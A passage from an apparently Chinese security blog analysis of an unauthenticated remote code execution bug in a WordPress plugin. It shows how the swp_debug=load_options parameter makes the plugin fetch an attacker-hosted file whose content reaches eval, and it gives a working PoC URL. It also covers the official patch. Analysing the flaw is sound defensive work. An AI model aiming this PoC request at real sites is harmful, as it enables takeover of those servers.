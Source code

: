 http://127.0.0

[![](https://p2.ssl.qhimg.com/t0163e718d88d0230f7.png)](https://p2.ssl.qhimg.com/t0163e718d88d0230f7.png)

这样file_get_contents会访问 http://127.0.0.1/1.php?swp_debug=get_user_options，并将我们构造好的payload传递给$options变量 到此为止，我们通过构造链接传入file_get_contents，达到完全可控$options变量中的内容的目的

接下来，会从$options变量中提取出内容，并进行解析，如下图

[![](https://p1.ssl.qhimg.com/t016ed03f35da6dbd5e.png)](https://p1.ssl.qhimg.com/t016ed03f35da6dbd5e.png)

随后，将解析出的$options值拼接后赋予$array，如使用我们案例中的1.php,那么$array的值为：return phpinfo()

接下来，$array中的值会传递入eval中，造成代码执行

[![](https://p3.ssl.qhimg.com/t01857e48014dd68834.png)](https://p3.ssl.qhimg.com/t01857e48014dd68834.png)

实际效果如下图

[![](https://p5.ssl.qhimg.com/t01e48fd1c28a9c91b7.png)](https://p5.ssl.qhimg.com/t01e48fd1c28a9c91b7.png)

漏洞分析到此结束，本次漏洞影响很大，但漏洞自身没有什么亮点

接下来，看一下官方是如何修补的：

通过github的commit记录，获取此次的修补方案。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01866d3a3a62698a3f.png)

此次修补，将lib/utilities/SWP_Database_Migration.php中的221-284行，将debug_parameters方法中存在问题的load_options模块代码全部删除 所以不存在绕过补丁的可能性。

在分析此漏洞时，有几处有意思的地方，和大家分享一下：

思考一：

先来看下如下操作：

首先，我们退出wordpress登陆

[![](https://p0.ssl.qhimg.com/t0136045f5f80cb747e.png)](https://p0.ssl.qhimg.com/t0136045f5f80cb747e.png)

可见，此时我们并没有登陆，也没有admin权限

接着，我们访问poc

http://127.0.0.1/wordpress/wp-admin/admin-post.php?swp_debug=load_options&amp;swp_url=http://127.0.0.1/1.php

[![](https://p0.ssl.qhimg.com/t0175bc648827dc82ae.png)](https://p0.ssl.qhimg.com/t0175bc648827dc82ae.png)

payload仍然可以触发

回顾上文此处
